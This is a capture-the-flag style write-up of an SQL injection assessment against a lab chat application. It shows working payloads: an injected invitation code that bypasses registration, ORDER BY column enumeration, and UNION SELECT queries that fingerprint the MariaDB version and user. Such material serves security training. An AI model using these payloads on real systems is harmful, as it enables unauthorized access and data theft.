## Skills Assessment

**Target:** `154.57.164.82:40359` (respawned from `154.57.164.70:44733` — see below)

**Scenario:** Black-box penetration test of chattr GmbH's web application, focused specifically on SQL injection vulnerabilities.

### Setup: Burp Suite and FoxyProxy

The application uses HTTPS. To intercept traffic, FoxyProxy was configured in Firefox to route through Burp Suite at `127.0.0.1:8080`, with the Burp/ZAP profile selected.



Burp Suite's intercept was turned on before any requests were sent.




### Reconnaissance: The Login Page

Navigating to `https://154.57.164.70:44733/login.php`, the page showed a standard username and password form.



A test login with `admin:placeholder` was submitted and intercepted, then forwarded to confirm the default behaviour: the server returned `username or password is wrong`.

The request structure was:

```
POST /api/login.php HTTP/1.1
Host: 154.57.164.70:44733
...
username=admin&password=placeholder
```



#### Attempting OR Injection on the Login Form

The first injection attempt on the username field was the basic OR bypass:

```
username=admin' OR '1'='1'# &password=placeholder
```



This failed with the same "username or password is wrong" response.



Trying the comment-based bypass next:

```
username=admin' OR '1'='1'-- -&password=placeholder
```

This also failed. The login form was not the right surface. The likely explanation, confirmed by the structure of the error response, is that the application runs a two-step check: first SQL finds the user row by username, then PHP separately compares the submitted password against a stored hash. The OR injection gets the row back, but the hash comparison still fails independently of the SQL, so there is no clean bypass here through the username field alone.

### Finding the Injection Surface: Registration

Navigating to the create account page revealed an invitation code field alongside the usual username and password fields.



Submitting `placeholder` as the invitation code produced an error message that helpfully revealed the expected format:

> Invalid invitation code. Please ensure it follows this format: 4 letters – 4 letters – 4 numbers (e.g., abcd-efgh-1234).



The format validation was being done client-side or server-side before the database check. Using the example from the error message, `abcd-efgh-1234`, as a placeholder invitation code:



Intercepting the resulting POST request:

```
POST /api/register.php HTTP/1.1
Host: 154.57.164.70:44733
...
username=hacker&password=hacker123%21&repeatPassword=hacker123%21&invitationCode=abcd-efgh-1234
```



#### Injecting the invitationCode Field

The invitation code was the obvious candidate for injection, since it was being validated against the database. The first attempt appended the OR bypass directly:

```
invitationCode=abcd-efgh-1234' OR '1'='1'-- -
```

This returned a 500 Internal Server Error on the first lab instance. 



This looked like the injection was reaching the database and breaking the query's syntax, since 500 is what the registration endpoint returns for a failed query (unlike the login form's graceful error message). Since HTB instances are known to be broken at times, that was what I had assumed, and I'd refreshed the target.

#### Lab Respawn

The target was respawned to `154.57.164.82:40359`. All subsequent steps use this target.

#### Finding the Correct Payload

On the new instance, the same payload was tried again, along with several variations including URL-encoded forms and `#` as the comment character, none of which worked. 

```txt
invitationCode=abcd-efgh-1234' OR '1'='1'-- -
```

**URL-encoded:**

```txt
abcd-efgh-1234%20OR%20%271%27%3D%271%27--%20abcd-efgh-1234%20OR%20%271%27%3D%271%27--%20
```

**URL-encoded version with `#` instead:**

```txt
username=hacker&password=hacker123%21&repeatPassword=hacker123%21&invitationCode=abcd-efgh-1234%27%20OR%201%3D1%20%23%20
```

Then finally, I stumbled upon the correct answer:

```
invitationCode=abcd-efgh-1234') OR '1'='1'-- -
```

which is then encoded into: 

```text
abcd-efgh-1234%27)%20OR%20%271%27%3D%271%27--%20-
```

The `)` was needed because the query wraps the invitation code value inside parentheses. Without it, the injected quote left an unbalanced opening parenthesis, causing a syntax error.

Upon forwarding it, the server redirected to:

```
GET /login.php?s=account+created+successfully! HTTP/1.1
```





### Post-Login Reconnaissance

Logging in with `hacker:hacker123!` landed on the main application: a chat interface.



Clicking `@admin` opened a conversation view with a search field in the top right.



The URL when clicking a user was:

```
/index.php?q=<search_term>&u=<user_id>
```

The `q` parameter, the search field, was the next candidate for injection.

### Enumerating the Search Injection

#### Column Count via ORDER BY

Using the `ORDER BY` technique to find the column count, the column number was incremented until an error was returned.

The payload structure needed a closing `)'` to escape the query's parentheses, mirroring the registration field:

```
') ORDER BY N-- -
```

Requests were sent through Burp Repeater, incrementing `N`:

- `ORDER BY 1`: 200 OK, Content-Length 5202
- `ORDER BY 2`: 200 OK, Content-Length 5202
- `ORDER BY 3`: 200 OK, Content-Length 5202
- `ORDER BY 4`: 200 OK, Content-Length 5202
- `ORDER BY 5`: 500 Internal Server Error, Content-Length 3809











This confirmed 4 columns. Visually in the browser: with 4 the chat box remained, with 5 it disappeared, confirming the error hit the rendering layer. 





#### Finding the Visible Columns

A UNION with four junk numbers was sent:

```
') UNION SELECT 1, 2, 3, 4-- -
```



Columns 3 and 4 were rendered in the conversation area. Column 3 appeared as the message bubble content.

### Fingerprinting

```
') UNION SELECT 1, 2, @@version, 4-- -
```



The DBMS is MariaDB version `10.11.11`, running on Debian 12 (`deb12u1` suffix). This confirmed MySQL-compatible syntax applies throughout.

```
') UNION SELECT 1, 2, user(), 4-- -
```

